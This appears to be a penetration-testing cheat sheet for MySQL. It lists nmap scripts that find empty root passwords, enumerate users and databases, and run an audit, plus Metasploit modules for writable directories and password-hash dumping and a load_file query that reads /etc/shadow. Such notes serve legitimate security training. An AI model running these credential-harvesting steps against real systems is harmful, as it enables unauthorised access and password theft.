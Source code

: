 
### Using `nmap` to enumerate accounts with NULL password

```
nmap -p 3306 -sV <target-IP> --script mysql-empty-password
```

### Using `nmap` to enumerate SQL server info

```
nmap -p 3306 -sV <target-ip> --script mysql-info
```

### Using `nmap` to enumerate users

```
nmap -p 3306 -sV <target-ip> --script mysql-users --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate databases

```
nmap -p 3306 -sV <target-ip> --script mysql-databases --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate variables

- Using the `mysql-variables` script to retrieve configuration and system information from the MySQL server:
```
nmap -p 3306 -sV <target-ip> --script mysql-variables --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to perform audit on the SQL server

```
nmap -p 3306 -sV <target-ip> --script mysql-audit --script-args="mysqlaudit.username='root',mysql-audit.pass='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
```

- The `mysql-audit` script in Nmap is designed to perform security audits on MySQL database servers. Its primary use is to assess the security posture of a MySQL server by checking for compliance with specific security configurations, guidelines, or benchmarks.

### Using `metasploit` to enumerate directories

- Metasploit module to enumerate writable directories in the system using MySQL:
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```

- **WordList path** - /usr/share/metasploit-framework/data/wordlists/directory.txt
- Set verbosity to `false` to avoid getting spammed with too many messages. 
- To show more options use command `advanced`
- Instead of using `set <RHOSTS>`, we can use `setg <RHOSTS>` to set it as a global variable, so that we don't have to set it again when we switch to another module.

**How does this module work ?**

This Metasploit module doesn't enumerate directories in the traditional sense but rather checks if MySQL has write access to specific directories by executing SQL queries that attempt to create temporary files in those directories. If the MySQL server has the necessary permissions and access rights, it will allow the creation of files in those directories.

### Using `sql_hashdump` module

- Metasploit module to collect the hashes of different users who have access to the MySQL server from the user account information stored in the `mysql.user` table:
```
use auxiliary/scanner/mysql/sql_hashdump
```

### Using `mysql` to access sensitive files

- `mysql` command to access `/etc/shadow` file.
```
select load_file("/etc/shadow")
```

- *The `/etc/shadow` file keeps records about encrypted users' passwords, as well as other passwords related information.
